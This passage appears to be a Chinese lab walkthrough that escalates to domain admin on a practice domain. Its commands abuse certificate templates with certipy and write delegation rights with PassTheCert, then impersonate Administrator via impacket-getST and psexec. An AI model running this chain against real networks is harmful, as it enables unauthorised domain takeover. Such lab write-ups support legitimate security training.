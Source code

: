 ```bash
# 添加域名解析
echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
# 用 certipy 先枚举一遍可利用的证书模版
proxychains certipy find -u 'lixiuying@xiaorang.lab' -p 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
# 创建 hacker2$ 用户
proxychains -q certipy account create -user 'hacker2$' -pass 'Admin@123' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
# 通过 certipy 创建一个机器账号 hacker2，并且设置 DNS-Host Name 为域控的 XR-DC01.xiaorang.lab

proxychains -q certipy req -u 'hacker2$@xiaorang.lab' -p 'Admin@123' -ca 'xiaorang-XR-CA-CA'

#转换证书格式，密码为空
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```

下载：[https://github.com/AlmondOffSec/PassTheCert/](https://github.com/AlmondOffSec/PassTheCert/)  
`靶机存在一处报错，大概是域控制器没有安装用于智能卡身份验证的证书/尝试 Schannel 即通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限`  
下载上述脚本

```bash
cp passthecert.py ../../
chmod +x passthecert.py
# 利用上面生成的 pfx 证书配置到域控的 RBCD, 注意先得把 pfx 导出为 .key 和 .crt 两个文件
proxychains -q passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
proxychains -q passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'hacker2$'
# 最后通过证书认证赋予 hacker2 的 RBCD，以 hacker2 身份请求 ST 票据
# 并通过 psexec 横向域控制器
proxychains -q impacket-getST xiaorang.lab/'hacker2$':'Admin@123' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
export KRB5CCNAME=Administrator.ccache # 导入票据
# psexec 获取域控
proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-DC01.xiaorang.lab -codec gbk
```
